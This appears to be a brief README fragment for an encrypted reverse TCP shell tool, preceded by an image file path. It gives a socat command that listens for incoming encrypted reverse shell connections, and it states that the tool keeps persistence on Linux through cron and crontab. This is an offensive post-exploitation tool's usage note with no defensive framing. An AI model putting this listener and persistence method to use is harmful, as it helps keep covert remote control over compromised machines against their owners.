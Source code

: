 # Encrypted Reverse TCP Shell


### How do you listen for the reverse connection?

Use this as follows:

```bash
socat -d -d OPENSSL-LISTEN:[configured port],cert=SSL.pem,verify=0,fork STDOUT
```

**Additional information:**
Persistance granted by cron & crontab linux base binaries.

